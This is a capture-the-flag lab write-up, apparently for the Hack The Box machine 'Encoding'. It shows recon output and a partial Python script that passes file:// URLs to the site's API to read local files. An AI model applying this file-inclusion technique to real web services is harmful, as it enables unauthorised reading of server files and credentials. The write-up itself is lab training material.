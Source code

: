 - Add the relevant endpoint to `/etc/hosts`

```bash
echo "10.10.11.198	encoding.htb" | sudo tee -a /etc/hosts
```

- Start recon in the background with `autorecon`

```bash
sudo (which autorecon) encoding.htb
```

- We see immediately that there is a web-server on port 80`.
- We visit:
	- [[http://encoding.htb/index.php?page=api]]
		- We can see that the `API` is explaining how to use it via `python`

```python
import requests

json_data = {
    'action': 'str2hex',
    'file_url' : 'http://example.com/data.txt'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(response.text)
```

- Add this to your `/etc/hosts`:

```bash
echo "10.10.11.198	api.haxtables.htb" | sudo tee -a /etc/hosts
```

- After some trial and error and failing with attempts to achieve `LFI` we check out the `autorecon` output for port `80`.
- We can see there is some `php` action going on.

```bash
cat tcp_80_http_feroxbuster_dirbuster.txt | grep 200
200      GET       31l       80w     1019c http://encoding.htb/assets/js/main.js
200      GET      167l      329w     3025c http://encoding.htb/assets/css/main.css
200      GET     2206l    13654w   619037c http://encoding.htb/assets/img/index.png
200      GET       48l      137w        0c http://encoding.htb/index.php
200      GET       48l      137w        0c http://encoding.htb/
200      GET       18l       82w     1303c http://encoding.htb/assets/
200      GET        1l        2w        0c http://encoding.htb/handler.php
200      GET        5l       53w      375c http://encoding.htb/includes/
```

- With this detail we can test a php file wrapper `LFI` i.e `file://` with success!
- Here is a python script to decode the relevant data.
	- We also proxy the traffic in case we want to use it in our `Burp` instance.

```python
import requests, sys, json, base64
if len(sys.argv) < 2:
    print("Use: python show_file.py <filename>")
    sys.exit(1)

proxy = {
    'http': 'http://127.0.0.1:8081'
}

json_data = {
    'action': 'b64encode',
    'file_url' : f'file://{sys.argv[1]}'
    }

```